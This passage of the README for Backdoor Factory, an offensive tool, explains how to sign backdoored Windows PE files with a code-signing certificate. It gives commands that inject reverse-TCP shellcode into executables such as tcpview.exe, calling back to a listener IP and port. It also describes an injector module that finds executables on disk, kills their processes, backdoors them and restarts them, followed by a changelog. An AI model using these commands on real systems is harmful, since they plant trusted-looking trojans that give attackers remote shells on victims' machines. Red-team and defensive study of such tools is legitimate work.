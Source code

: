 ###PEcodeSigning

BDF can sign PE files if you have a codesigning cert. It uses osslsigncode.
Put your signing cert and private key in the certs/ directory.  Prep your certs using openssl commands from this blog post:
http://secureallthethings.blogspot.com/2015/12/add-pe-code-signing-to-backdoor-factory.html

Put your private key password in a file (gasp) as so (exactly as so): 
    
    echo -n yourpassword > certs/passFile.txt

Name your certs EXACTLY as follows:
	
    signingCert.cer => certs/signingCert.cer
    signingPrivateKey.pem => certs/signingPrivateKey.pem

Your certs/ directory should look excatly as so:
    
    certs
    ├── passFile.txt
    ├── signingPrivateKey.pem
    └── signingCert.cer

Enable PE Code Signing with the -C flag as so:

     ./backdoor.py -f tcpview.exe -s iat_reverse_tcp_inline -H 172.16.186.1 -P 8080 -m automatic -C


On successful run you should see this line in BDF output:

    [*] Code Signing Succeeded



---
###Hunt and backdoor: Injector | Windows Only
    The injector module will look for target executables to backdoor on disk.  It will check to see if you have identified the target as a service, check to see if the process is running, kill the process and/or service, inject the executable with the shellcode, save the original file to either file.exe.old or another suffix of choice, and attempt to restart the process or service.  
    Edit the python dictionary "list_of_targets" in the 'injector' module for targets of your choosing.

    ./backdoor.py -i -H 192.168.0.100 -P 8080 -s reverse_shell_tcp_inline -a -u .moocowwow 

---

###Changelog

####07/04/2016

* Support for dynamic paths in BDFProxy for preprocessor

####06/19/2016

* Added the preprocessor and other optimizations
* The preprocessor allows the user to modify the binary prior to payload injection
* Invoke with the -p flag
* See samples in ./preprocessor/


####12/20/2015
